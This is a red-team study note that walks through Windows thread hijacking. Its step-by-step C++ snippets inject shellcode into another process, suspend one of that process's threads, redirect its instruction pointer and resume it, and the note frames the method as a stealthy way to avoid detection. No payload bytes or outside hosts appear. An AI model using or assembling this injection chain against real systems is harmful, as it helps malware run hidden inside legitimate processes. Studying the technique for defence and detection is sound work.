 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/abusing-process-components/","tags":["red-team/host-evasion"]}
---
```


~ [[cards/red-team/Abusing Windows Internals\|Abusing Windows Internals]]
### Introduction
---
Thread hijacking is a technique used by attackers to inject code (shellcode) into an existing **thread** of a legitimate process, then **redirect** that thread to execute their **malicious code** instead.

It is much stealthier than creating a new thread such as `CreateRemoteThread` because you'r hijacking an existing thread, making it harder to detect.

A _thread_ is like a **worker** inside a program (restuarant) that performs a specific task in order to ensure the program (restaurant) runs smoothly.
## Steps
---
**Step 1: Open the Target Process**

```cpp
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
```

- Locate the **target** process by it's PID.
- Use `OpenProcess` to get a handle to the process with **full access** (`PROCESS_ALL_ACCESS`) so we can write to it and manipulate its memory/threads.

**Step 2: Allocate Memory in the Target Process**

```cpp
PVOID remoteBuffer = VirtualAllocEx(
    hProcess,
    NULL,
    sizeof shellcode,
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Reserves and commits memory within the **remote process**.

- The allocated memory will store the **malicious shellcode**, hence we use `sizeof shellcode`.

- `PAGE_EXECUTE_READWRITE` allows the code to be executed, read, and written.

**Step 3: Write Shellcode to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess,
    remoteBuffer,
    shellcode,
    sizeof shellcode,
    NULL
);
```

Inject the **shellcode** (malicious payload) into the **allocated memory** inside the target process.

**Step 4: Take a Snapshot of All Threads**

```cpp
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
```

- Takes a **snapshot of all threads** running on the system.
    
- Needed to identify which thread **belongs** to the target process.

**Step 5: Find a Thread from the Target Process**

```cpp
THREADENTRY32 threadEntry;
Thread32First(hSnapshot, &threadEntry);

while (Thread32Next(hSnapshot, &threadEntry)) {
    if (threadEntry.th32OwnerProcessID == processId) {
        // Found thread belonging to our target process 
        // The code inside this if condition is at step 6
    }
}
```

Loops through all threads and checks if any of them belong to the target process (`th32OwnerProcessID` == target PID).

**Step 6: Open the Target Thread**

```cpp
HANDLE hThread = OpenThread(
    THREAD_ALL_ACCESS,
    FALSE,
    threadEntry.th32ThreadID
);
```

- Opens the **target thread** found in the previous step.

- Grants **full control** over the thread (read, write, suspend, etc.).

**Step 7: Suspend the Target Thread**

```cpp
SuspendThread(hThread);
```

Freezes the thread so we can **safely manipulate** its execution context.

**Step 8: Get the Thread's Context**

```cpp
CONTEXT context;
context.ContextFlags = CONTEXT_FULL;

GetThreadContext(hThread, &context);
```

- Retrieves the **execution context** of the thread.
    
- This includes register values like the **instruction pointer (RIP)**.

**Step 9: Set RIP to Our Shellcode**

```cpp
context.Rip = (DWORD_PTR)remoteBuffer;
```

- **Modifies the Instruction Pointer (RIP)** to point to our **malicious shellcode**.
    
- RIP determines the next instruction the CPU will execute.

**Step 10: Apply the Modified Context**

```cpp
SetThreadContext(hThread, &context);
```

- **Writes back** the modified thread context.
    
- The thread will now execute the shellcode once resumed.

**Step : Resume Thread**

```cpp
ResumeThread(hThread);
```

- Resumes the previously suspended thread.
    
- Execution jumps to our shellcode in the remote process.

### Prerequisite in order to work
---
- **High privileges** especially `PROCESS_ALL_ACCESS` and `THREAD_ALL_ACCESS`
- Target process must allow memory allocation and thread manipulation (i.e., not protected by kernel drivers like anti-virus)
- Architecture match: injector must match target process — both x86 or both x64
